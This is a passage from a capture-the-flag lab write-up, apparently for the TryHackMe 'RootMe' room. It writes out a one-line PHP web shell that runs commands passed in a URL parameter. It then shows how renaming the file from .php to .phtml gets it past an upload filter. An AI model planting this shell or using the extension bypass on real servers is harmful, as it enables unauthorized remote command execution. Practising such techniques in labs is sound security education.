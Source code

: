 Anyways, let's use a template by PortSwigger, I will add the one-liner below into a .php file and upload it.

```markdown
<?php echo system($_GET['command']); ?>
```

![creating .php file](/images/THM%3A%20RootMe/bad.png)

![error, php not permitted](/images/THM%3A%20RootMe/notpermitted.png)

Seems like we cannot upload .php files... but let's see if we can upload .phtml files. .phtml files are basically .php files, but with html mixed in. There shouldn't really be any differences in functionality in this case.

This can be simply done by changing the file that we initially were going to upload into a .phtml, which can be done using the `mv` command on Linux. (`mv` is move)

```markdown
mv [old file location] [new file location]
```

In this case, we use `mv bad.php bad.phtml`. And then we reupload...
